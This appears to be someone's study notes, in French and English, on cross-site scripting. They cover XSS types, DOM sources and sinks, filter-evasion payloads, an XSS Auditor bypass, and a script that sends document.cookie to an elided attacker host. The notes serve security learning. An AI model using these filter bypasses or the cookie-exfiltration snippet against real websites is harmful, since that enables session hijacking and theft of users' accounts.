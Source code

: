 # XSS - Cross-Site Scripting

## Types

### Reflected

L'input de l'utilisateur est envoyé au serveur puis réfléchis sur la page.

### Stored

Pareil sauf que l'input est en plus persisté.

### DOM

L'input est directement inséré dans le DOM \(donc sans passer par le serveur\).

#### Sources \(where the input goes\)

* document.url
* document.referrer
* location
* location.href
* location.search
* location.hash
* location.pathname
* ...

#### Sinks \(where the input ends up\)

* element.innerHTML\(\)
* element.outerHTML\(\)
* eval\(\)
* setTimeout\(\)
* setInterval\(\)
* document.write\(\)
* document.writeln\(\)
* ...

#### Tips & Tricks

* Un tag `<script>alert();</script>` inséré via `inner.html` ne sera en fait pas executé. 
*  Vaut mieux passer par un `<img src="test" onerror="alert(1337)" />`, ou encore plus simple : `<svg onload="alert(1337)">`

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

### Tips

* Start by checking which characters are escaped by using them with a normal string that you can easily find in the result. Also use lists with _burp intruder_.
* Si les `<script>` ne sont pas accepté, utiliser les événements de type `onfocus`, `onload`, etc. Btw you can accumulate function in these event by separating them with `;`.
* `<sCRipt>` tag aren't case sensitive
* If the string tag is accepted but not word like "alert", you can do things like :
  * `eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))`
  * `eval("al"+"ert(1)")`
* Avec le http parameter pollution, s’il est concaténé, on peut aussi faire du xss
* C'est aussi possible de passer par du HTML5/CSS3/SVG
* [https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* `javascript:alert(1337)` as url \(form action for example\)
* `data:text/html,<script>alert(0)</script>` in url
* Avec ce code

  ```javascript
  let name = (new URL(location).searchParams.get('name'))
  eval(`var = "bonjour ${name}"`)
  ```

On peut lui donner ce payload : `name="-alert(1337)-"` Mais j'ignore pourquoi les "-" font que ça marche, du coup ce que j'ai fait moi pour pas avoir d'erreur c'est : `name=";alert(1337);tmp="`

* Pour créer une string sans utiliser "" y'a 2 techniques :
  * eval du regex : `eval(/alert(1337)/.source())`
  * tostring un nombre avec une base : `17795081..toString(36)` \(j'ignore pourquoi le second `.` est obligatoire\)
* Break out of html comment : Si `<?php>` \(ou `<?>` car c'est son raccourci\) sont présent dans la réponse html, les navigateurs vont transformer ça en `<!--php-->` car ils ne veulent pas que du code serveur se retrouve accidentellement sur le client. Hors, les commentaires imbriqués n'existant pas en html, si on fait ça à l'intérieur d'un commentaire, ça va le terminer prématurément.
* https can be in all caps \(HTTPS\)
* `google.com/jsapi?callback=alert` can be used to received a function in a callback

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## Get a cookie with that

By example by injection this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research


